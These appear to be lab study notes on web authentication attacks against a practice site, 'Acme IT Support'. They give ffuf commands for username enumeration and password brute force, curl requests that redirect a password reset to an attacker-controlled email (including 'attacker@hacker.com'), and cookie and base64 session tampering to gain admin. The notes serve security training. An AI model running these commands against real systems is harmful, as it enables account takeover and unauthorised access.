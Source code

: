 ## Username Enumeration

### Creating Username Lists
1. Utilize website error messages
    - Monitor responses like "Account already exists"
    - Example: Testing "admin" username on Acme IT Support

### Username Enumeration with FFUF
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt \
      -X POST \
      -d "username=FUZZ&email=x&password=x&cpassword=x" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      -u http://10.10.38.129/customers/signup \
      -mr "username already exists"
```

#### Command Parameters
- `-w`: Wordlist path
- `-X`: HTTP method
- `-d`: POST data
- `-H`: Headers
- `-u`: Target URL
- `-mr`: Response match text

### Brute Force Attack

#### Attack Strategy
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
      -X POST \
      -d "username=W1&password=W2" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      -u http://10.10.38.129/customers/login \
      -fc 200
```

#### Key Components
- Two wordlists: usernames (W1) and passwords (W2)
- POST request to login endpoint
- Filters out HTTP 200 responses
- Form-encoded data submission

#### Best Practices
- Clean username list before use
- Verify wordlist locations
- Monitor non-200 responses

### Logic Flaw

#### What is a Logic Flaw?
A logic flaw occurs when the typical logical path of an application is bypassed, circumvented, or manipulated by a hacker. These flaws can exist in any area of a website, including authentication.

#### Logic Flaw Example
```php
if( url.substr(0,6) === '/admin') {
    // Code to check user is an admin
} else {
    // View Page
}
```
The code above checks if the URL starts with `/admin` and then verifies if the user is an admin. However, due to case sensitivity, requesting `/adMin` bypasses the admin check.

#### Logic Flaw Practical
Examining the Reset Password function of Acme IT Support:
1. Enter an email (e.g., robert@acmeitsupport.thm) to receive a password reset link.
2. Enter the associated username (e.g., robert).

##### Curl Requests
1. Initial request:
    ```bash
    curl 'http://10.10.38.129/customers/reset?email=robert%40acmeitsupport.thm' \
         -H 'Content-Type: application/x-www-form-urlencoded' \
         -d 'username=robert'
    ```
2. Exploit request:
    ```bash
    curl 'http://10.10.38.129/customers/reset?email=robert%40acmeitsupport.thm' \
         -H 'Content-Type: application/x-www-form-urlencoded' \
         -d 'username=robert&email=attacker@hacker.com'
    ```

By manipulating the email parameter in the POST data, the password reset email is sent to the attacker's email.

#### Final Step
Create an account on Acme IT Support to get an email in the format `{username}@customer.acmeitsupport.thm`. Use this email in the exploit request to receive a password reset link for Robert's account.

Exploit request with your email:
```bash
curl 'http://10.10.38.129/customers/reset?email=robert@acmeitsupport.thm' \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

### Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

Example cookies:
```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```
- Change `logged_in` to `true` and `admin` to `true` to gain admin access.

#### Curl Requests
1. Initial request:
    ```bash
    curl http://MACHINE_IP/cookie-test
    ```
    Response: Not Logged In

2. Logged in as user:
    ```bash
    curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
    ```
    Response: Logged In As A User

3. Logged in as admin:
    ```bash
    curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
    ```
    Response: Logged In As An Admin

### Hashing

Hashes are irreversible representations of original text. Examples:
- MD5: `c4ca4238a0b923820dcc509a6f75849b`
- SHA-256: `6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b`
- SHA-512: `4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a`
- SHA1: `356a192b7913b04c54574d18c28d46e6395428ab`

### Encoding

Encoding converts binary data into human-readable text and is reversible. Common types:
- Base32
- Base64

Example:
```
Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
```
Decoded value: `{"id":1,"admin": false}`
Encoded with admin access: `{"id":1,"admin": true}`